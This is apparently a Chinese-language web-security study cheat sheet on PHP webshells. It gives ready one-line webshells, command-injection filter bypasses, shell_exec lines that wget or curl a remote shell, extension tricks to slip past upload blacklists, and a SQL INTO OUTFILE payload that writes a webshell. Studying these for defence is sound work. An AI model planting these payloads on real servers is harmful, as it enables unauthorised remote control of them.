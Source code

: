 # Webshell
一種以網頁形式存在的命令執行環境，也稱作**網頁後門**。  
黑客可以通過瀏覽自己放的後門，得到一個shell以操控伺服器。  
1. 大馬  
程式較龐大，調用system func()，通常會以加密隱藏代碼。   
2. 小馬  
程式小巧   
3. 一句話木馬  
一段小代碼，可做插入，變化多樣。  
*  [How works](#how-works)  
*  [Command injection](#command-injection)  
*  [Webshell cheatsheet](#webshell-cheatsheet)  
*  [Bypass blacklist extension](#bypass-blacklist-extension)  
*  [SQL inj to webshell](#sql-inj-to-webshell)  
*  [Reference](#reference)

# How works
我們可以通過網站自帶的文件上傳功能將webshell送上去，而文件裡的代碼由server解析進一步執行!  
1. 尋找上傳點   
* echo 一個shell到文件中執行  
* 下載 shell  
2. 繞過上傳限制 進行上傳  
* 直接上傳  
* 繞過  

# Command injection
```php
// match one character
cat fla?
cat ./???sword

// match multiple character
cat f*

// bypass space 
cat${IFS}flag
```
   
# Webshell cheatsheet
```php
<?php system('ls'); ?>
<?php system(ls); ?>
<?php system($_GET['cmd']); ?>
<?php system($_GET[1]); ?>

<?=`$_GET[1]`;                   // <?= is used to shorten the <?php echo `blah`;
// ``就像exec不會直接顯示結果，需要echo
echo `$_GET[1]`;&1=ls

// local file inclusion
include$_GET[1];             // 中間空格可以省略

// 思路：寫入base64編碼過的shell檔，再進行解碼  <環境www>
$_GET[1](file,chracter,8);&1=file_put_contents .....
include$_GET[0];&0=php://filter/read=convert.base64-decode/resource=file

<?php shell_exec('echo 1>1');        // 1=echo 1>1
<?php shell_exec('>1');            // 1=>1

<?php shell_exec('wget -O 1.php url');    // download shell
<?php shell_exec('curl -o 1.php url');    // 預設下載index.html

// 思路：延伸數組＋回調函數 php 5.4以後的特性  
// 參考下方reference
?1[]=blah&1[]=system();&2=assert
param=usort(...$_GET);
```
長度限制思路：  
* 用檔名拼湊成命令,再一次ls進一個shell script [detail](https://shinmao.github.io/2018/02/20/A-tiny-shell/)

[system v.s. exec v.s. shell_exec](https://blog.longwin.com.tw/2013/06/php-system-exec-shell_exec-diff-2013/)  
**基本上除了system都不會直接show在頁面上，exec()和shell_exec()我們都會搭個echo**  

# Bypass blacklist extension
文件解析漏洞  
除了```.php```，通過conf模塊的regular expression：  
* ```.php3```  
* ```.php4```  
* ```.php5```  
* ```.php7```  
* ```.pht```  
* ```.phtml```  
以上副檔名也都會被解析成```.php```  
* ```.php.xxx```  
在古老的版本中也存在**多後綴名**的繞過方式  
原理：apache2特性由右至左解析，遇到不認識的無法解析就像左跳！  
* ```.php/.``` 
值得注意的是 這招無法覆蓋舊檔  
原理：php源碼中可以看到用遞歸的方式將檔名結尾的```/.```都去掉！  
[源碼審計](https://github.com/shinmao/Web-Security-Learning/blob/master/Webshell/apache2_php5.conf)

# SQL inj to webshell
MYSQL:  
```
select into outfile(dumpfile)  // mysql write to document
```  
E.G.  
```  
union select 1,2,"<? system($_GET['fuck']) ?>" into outfile "://path"
```

### Reference  
* [千变万化的WebShell-Seebug](https://paper.seebug.org/36/)
* [七字短shell](http://wonderkun.cc/index.html/?p=524%EF%BC%88%E9%80%9A%E8%BF%87)  
* [PHP MANUAL Assert](http://php.net/manual/en/function.assert.php)  
* [PHP MANUAL Usort](http://php.net/manual/en/function.usort.php)  
* [PHP MANUAL 延長數組](http://php.net/manual/zh/migration56.new-features.php)
